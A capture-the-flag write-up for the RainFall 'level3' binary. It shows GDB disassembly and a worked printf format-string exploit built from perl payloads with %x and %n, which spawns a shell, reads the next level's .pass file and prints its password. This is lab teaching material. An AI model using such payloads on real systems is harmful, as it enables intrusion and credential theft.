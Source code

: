 # level3

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Take a look at `main`, nothing tremendous. It calls `v`:

```gdb
gdb-peda$ disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218                   ; 536 bytes of stack space reclaimed
   0x080484ad <+9>:     mov    eax,ds:0x8049860            ; eax = stdin
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax     ; push stdin to stack
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200   ; push 512 to stack
   0x080484be <+26>:    lea    eax,[ebp-0x208]             ; load buffer address in eax
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax         ; push eax to stack
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>       ; call fgets
   0x080484cc <+40>:    lea    eax,[ebp-0x208]             ; load buffer address in eax
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax         ; push eax to stack
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>      ; call printf
   0x080484da <+54>:    mov    eax,ds:0x804988c            ; eax = data segment variable (that equals 0 here)
   0x080484df <+59>:    cmp    eax,0x40                    ; compare eax to 0x40 (64 in decimal)
   0x080484e2 <+62>:    jne    0x8048518 <v+116>           ; jump to leave instruction if not equal
   0x080484e4 <+64>:    mov    eax,ds:0x8049880            ; eax = stdout
   0x080484e9 <+69>:    mov    edx,eax                     ; edx = eax
   0x080484eb <+71>:    mov    eax,0x8048600               ; eax = 0x8048600 (contains "Wait what?!\n")
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx     ; push edx to stack
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc     ; push 12 to stack
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1     ; push 1 to stack
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax         ; push eax to stack (arg[0])
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>      ; call fwrite
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d   ; push address 0x804860d (contains "/bin/sh") to stack
   0x08048513 <+111>:   call   0x80483c0 <system@plt>      ; call system
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

We notice numerous calls: `fgets`, `printf`. `fwrite` and `system`. Also, a conditionnal jumps seems to lead to the end
of the function without executing `fwrite` and `system`.

We look at the content of the address `0x804860d` (do `x/s 0x804860d` command in gdb) pushed on the stack before the
call to `system`, which is the string `"/bin/sh"`.

So we know that we don't have to jump after the `0x080484df <+59>:    cmp    eax,0x40` instruction to reach this
`system` call.

Since `fgets` protects from a buffer overflow attack, we look for `printf` vulnerabilities, and find [this
document](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) (also attached in
'Ressources' directory) about the format string one.

This will allow us to write the value `0x40` (64 in decimal) in the address `0x804988c` which is copied to `eax` before
the `cmp eax,0x40` instruction. Here is how to proceed.

## Exploit

First of all, we inject as many `%x` conversion as needed to make printf move forward through the stack and reach the
address where the string we have provided is stored.

```console
level3@RainFall:~$ perl -e 'print "AAAA %08x %08x %08x %08x\n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 | ./level3
AAAA 00000200 b7fd1ac0 b7ff37d0 41414141
```

Here we have read the first 16 bytes of the stack, and we know that the 4th argument converted by `printf` is the
address of the supplied string (`AAAA` => `41414141`).

We can now use the `%n` conversion which prints the number of characters written so far by `printf` to write the value
64 in the address `0x804988c`.

To do so, we need to know how long our string is, then add extra characters to reach 64 bytes before the `%n`.

Let's format the string with the address `0x804988c` and the conversions needed. We use gdb to see what value is written
at this address.

```console
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08%x%x%x%n"' > /tmp/level3
level3@RainFall:~$ gdb ./level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
gdb-peda$ b *0x080484df
Breakpoint 1 at 0x80484df
gdb-peda$ run < /tmp/level3
Breakpoint 1, 0x080484df in v ()
gdb-peda$ x/s $eax
0x17:	 <Address 0x17 out of bounds>
```
The exploit has worked, the value written is 0x17, or 23 in decimal. Since we want to write 64, we'll add 41 extra
characters to our string.

```console
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%x%x%x%n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 - | ./level3
...
[hit return, some garbage display]
...
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
